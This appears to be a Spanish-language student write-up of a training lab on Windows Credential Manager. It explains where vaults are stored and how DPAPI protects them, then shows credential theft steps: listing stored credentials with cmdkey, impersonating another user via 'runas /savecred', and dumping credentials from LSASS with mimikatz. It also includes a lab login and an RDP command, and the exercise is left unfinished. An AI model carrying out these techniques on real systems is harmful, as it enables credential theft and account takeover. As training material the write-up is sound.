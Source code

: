 El Administrador de Credenciales es una función integrada en Windows Server 2008 R2 y Windows 7, que permite a usuarios y aplicaciones almacenar credenciales de forma segura (como contraseñas o tokens) para otros sistemas o sitios web.

Las credenciales se guardan cifradas dentro del perfil del usuario o del sistema en rutas como:
```
%UserProfile%\AppData\Local\Microsoft\Vault\
%UserProfile%\AppData\Local\Microsoft\Credentials\
%UserProfile%\AppData\Roaming\Microsoft\Vault\
%ProgramData%\Microsoft\Vault\
%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\
```

Cada carpeta de bóveda contiene un archivo `Policy.vpol` con **claves AES (128 o 256 bits)** protegidas por **DPAPI**, usadas para cifrar las credenciales.  
Las versiones modernas de Windows utilizan **Credential Guard**, que emplea **virtualización y enclaves de memoria seguros** para proteger aún más las claves maestras de DPAPI.

Microsoft denomina a estos almacenes protegidos **Credential Lockers** (antes llamados _Windows Vaults_).
- **Administrador de Credenciales:** interfaz/API visible para el usuario.
- **Vaults o Lockers:** carpetas cifradas donde realmente se guardan las credenciales.

|Nombre|Descripción|
|---|---|
|Credenciales web|Credenciales asociadas a sitios web y cuentas en línea. Este bloqueo se utiliza en Internet Explorer y versiones anteriores de Microsoft Edge.|
|Credenciales de Windows|Se utiliza para almacenar tokens de inicio de sesión para varios servicios como OneDrive y credenciales relacionadas con usuarios de dominio, recursos de red local, servicios y directorios compartidos.|

Es posible exportar bóvedas de Windows a archivos .crd mediante el Panel de control o con el siguiente comando. Las copias de seguridad creadas de esta manera se cifran con una contraseña proporcionada por el usuario y pueden importarse a otros sistemas Windows.
```
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMgr
```

---
## Enumerating credentials with cmdkey
Podemos usar cmdkey para enumerar las credenciales almacenadas en el perfil del usuario actual:
```cmd-session
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

La primera credencial en el resultado del comando anterior, virtualapp/didlogical, es una credencial genérica utilizada por la cuenta Microsoft/servicios de Windows Live. El nombre de usuario, de apariencia aleatoria, es un ID de cuenta interno. Esta entrada puede ignorarse para nuestros fines.

La segunda credencial, Domain:interactive=SRV01\mcharles, es una credencial de dominio asociada al usuario SRV01\mcharles. Interactiva significa que la credencial se utiliza para inicios de sesión interactivos. Siempre que encontremos este tipo de credencial, podemos usar "runas" para suplantar la identidad del usuario almacenado, como se muestra a continuación:

```cmd-session
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

---
## Extracting credentials with Mimikatz
Existen diversas herramientas que pueden usarse para descifrar las credenciales almacenadas. Una de ellas es mimikatz. Incluso dentro de mimikatz, existen múltiples maneras de atacar estas credenciales: podemos volcarlas de la memoria con el módulo sekurlsa o descifrarlas manualmente con el módulo dpapi. En este ejemplo, usaremos sekurlsa para el proceso LSASS:

```cmd-session
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

---

**1.  What is the password mcharles uses for OneDrive?
Target(s): 10.129.93.199 (ACADEMY-PWATTCK-CREDDEV01)   
RDP to 10.129.93.199 (ACADEMY-PWATTCK-CREDDEV01) with user "sadams" and password "totally2brow2harmon@"**

Ejecuto en Linux (atacante):
```
xfreerdp /v:10.129.93.199 /u:sadams /p:'totally2brow2harmon@'
```

En la máquina víctima de Windows, ejecuto un:
```
C:\Users\sadams>cmdkey /list

Currently stored credentials:
    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Voy a loggearme como dicho usuario con el comando:
```
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

Ejercicio no finalizado por alta dificultad.
